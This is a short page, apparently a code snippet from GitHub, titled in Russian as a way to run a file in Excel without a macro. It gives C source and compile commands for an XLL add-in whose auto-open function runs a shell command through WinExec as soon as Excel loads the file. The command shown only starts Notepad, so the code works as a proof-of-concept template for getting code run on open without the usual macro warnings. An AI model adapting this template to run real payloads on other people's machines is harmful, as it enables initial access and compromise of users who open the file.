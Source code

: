 # Файл для запуска в exel без макроса

https://gist.github.com/projectboot/a0308688abcb1f318a0b00b33698e782

	// Compile with: cl.exe notepadXLL.c /LD /o notepad.xll or x86_64-w64-mingw32-gcc xll.c -shared -o test.xll
	#include <Windows.h>

	__declspec(dllexport) void __cdecl xlAutoOpen(void); 

	void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
	}

	BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
					 )
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}
